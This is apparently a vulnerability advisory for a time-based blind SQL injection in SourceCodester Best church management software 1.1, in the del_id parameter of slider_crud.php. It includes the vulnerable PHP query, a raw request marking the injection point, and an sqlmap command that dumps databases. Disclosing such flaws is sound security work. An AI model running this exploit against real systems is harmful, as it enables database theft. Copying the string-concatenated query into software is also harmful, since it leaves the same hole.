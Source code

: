 # Code Source
https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
# Description
A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in /admin/app/slider_crud.php. Affected is file /admin/app/slider_crud.php,The manipulation of the argument `del_id` leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

# Request
```
POST /admin/app/slider_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

del_id=*
```

# Affect code
```php
... ...
if (isset($_POST['del_id'])) 
  {
      $stmt = $conn->prepare("UPDATE `slider` SET delete_status='1' where id='".$_POST['del_id']."' ");
      $stmt->execute();
      $_SESSION['delete']="delete";
      header("location:../manage_slider.php" ); 
  }
... ...
```

# Exploit
`python sqlmap.py -r 1.txt --dbs`
![图片](https://github.com/user-attachments/assets/a4a1f8b1-6ce1-4eef-8828-b7b3067a16fc)
![图片](https://github.com/user-attachments/assets/eb26ff3a-19a4-4f4e-acb1-cf3c936fa840)

